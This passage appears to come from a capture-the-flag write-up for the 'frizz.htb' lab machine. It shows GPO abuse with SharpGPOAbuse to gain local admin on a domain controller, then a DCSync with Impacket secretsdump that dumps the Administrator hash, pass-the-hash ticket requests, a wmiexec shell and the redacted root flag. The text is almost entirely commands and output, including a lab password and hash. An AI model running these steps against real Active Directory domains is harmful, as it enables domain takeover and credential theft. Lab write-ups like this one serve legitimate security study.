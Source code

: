 ```powershell

GpoId       : 06ea6f47-ab33-4c40-92a0-caeea21a0a98
DisplayName : coolgpo
Enabled     : True
Enforced    : False
Target      : OU=Domain Controllers,DC=frizz,DC=htb
Order       : 2

PS C:\Users\M.SchoolBus> .\SharpGPOAbuse.exe --AddLocalAdmin M.SchoolBus --GPOName "coolgpo" --UserAccount M.SchoolBus
[+] Domain = frizz.htb
[+] Domain Controller = frizzdc.frizz.htb
[+] Distinguished Name = CN=Policies,CN=System,DC=frizz,DC=htb
[+] SID Value of M.SchoolBus = S-1-5-21-2386970044-1145388522-2932701813-1106
[+] GUID of "coolgpo" is: {06EA6F47-AB33-4C40-92A0-CAEEA21A0A98}
[+] Creating file \\frizz.htb\SysVol\frizz.htb\Policies\{06EA6F47-AB33-4C40-92A0-CAEEA21A0A98}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
PS C:\Users\M.SchoolBus> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.
User Policy update has completed successfully.
```

After doing that you can do anything you want. I used DCSync.
```bash
ntpx getTGT.py 'frizz.htb/M.SchoolBus:!suBcig@MehTed!R' -dc-ip frizzdc.frizz.htb
export KRB5CCNAME=./M.SchoolBus.ccache
ntpx secretsdump.py frizz.htb/m.schoolbus@frizzdc.frizz.htb -k -no-pass -just-dc-user Administrator
ntpx getTGT.py 'frizz.htb/administrator' -no-pass -dc-ip frizzdc.frizz.htb -hashes aad3b435b51404eeaad3b435b51404ee:c457b5f1c315bef53b9cabc92e993d0b
export KRB5CCNAME=./administrator.ccache
ntpx wmiexec.py -k frizzdc.frizz.htb
```

```powershell
C:\>type C:\Users\Administrator\Desktop\root.txt
499f3***************************
```
